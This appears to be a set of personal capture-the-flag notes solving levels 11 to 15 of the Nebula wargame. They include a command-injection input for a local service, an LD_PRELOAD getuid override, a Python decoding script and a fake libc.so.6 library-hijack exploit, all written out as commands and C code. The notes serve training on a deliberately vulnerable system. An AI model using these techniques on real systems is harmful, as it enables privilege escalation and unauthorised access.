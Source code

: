 #### 0x11 level11
    mykey:
        there are two ways:
            (https://blackndoor.com/nebula-level11/)
            (https://github.com/join-us/exploit-exercises/blob/master/Nebula/level11.md)
        
#### 0x12 level12
    mykey:
        nc 127.0.0.1 50001
        Pass:
            test;getflag > /tmp/level12
        vi /tmp/level12

#### 0x13 level13
    mykey:
        vi /tmp/level13.c
        -----content-------
        #include <sys/types.h>
        int getuid(void)
        {
            return 1000; 
        }
        -------------------
        gcc -shared -fPIC /tmp/level13.c -o /tmp/level13.so
        LD_PRELOAD="/tmp/level13.so"
        export LD_PRELOAD
        cp /home/flag13/flag13 /home/level13/
        /home/level13/flag13

#### 0x14 level14
    mykey:
    --------py--------
    def main(string):
        length=len(string)
        out=""
        for i in range(length):
    	#print type(chr(ord(string[length-1-i])-(length-1-i)))
    	#print chr(ord(string[length-1-i])-(length-1-i))[0]
            out+=(chr(ord(string[length-1-i])-(length-1-i))[0])
        return out
    if __name__=='__main__':
        import sys
        print main(sys.argv[1])
    ------------------

#### 0x15 level15
        cd /home/flag15
        strace ./flag15
            found one line:open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory) 
        vi /var/tmp/flag15/exploit.c
        ------------exploit.c-----------
        #include <unistd.h>
        int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
            execl("/bin/getflag", (char *)NULL, (char *)NULL);
        }
        --------------------------------
        cd /var/tmp/flag15
        gcc -g -fPIC -c exploit.c (-g===>for gdb,-c===>产生目标文件,不产生可执行文件)
        ll
            exploit.c
            exploit.o
        gcc exploit.o -shared -o libc.so.6